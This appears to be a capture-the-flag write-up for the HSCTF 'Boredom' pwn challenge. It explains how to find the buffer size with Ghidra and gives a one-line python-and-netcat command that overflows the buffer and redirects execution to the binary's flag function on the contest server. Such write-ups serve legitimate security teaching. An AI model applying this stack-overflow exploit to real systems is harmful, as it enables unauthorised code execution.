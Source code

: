 # Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

check your offset, the offset is slightly different on the remote server
the addresses are still the same

## Solution

Disassemble the bin file using ghidra and check the buffer dimension: it is 216 locally (208 on server). You'll notice that if you send 220 "a" as input, the program will try to call a function at the address: "0x7f0061616161" (character "a" in ASCII is equal to 0x61 in hex).
So just use the command:

```
python -c "print 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```

This will cause a bufferoverflow and make the program run the function "flag" (address 0x04011d5) to get the flag.txt from the server.